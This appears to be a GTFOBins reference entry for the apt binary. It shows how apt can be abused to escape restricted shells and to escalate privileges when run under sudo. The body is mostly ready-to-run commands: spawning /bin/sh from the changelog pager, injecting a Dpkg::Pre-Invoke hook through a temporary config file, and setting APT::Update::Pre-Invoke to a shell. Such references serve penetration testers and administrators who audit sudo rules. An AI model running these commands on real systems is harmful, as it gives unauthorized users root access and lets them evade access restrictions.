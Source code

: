 # GTFOBin: apt

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
apt changelog apt
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo apt changelog apt
!/bin/sh
```

For this to work the target package (e.g., `sl`) must not be installed.

```
TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt install -c $TF sl
```

When the shell exits the `update` command is actually executed.

```
sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
```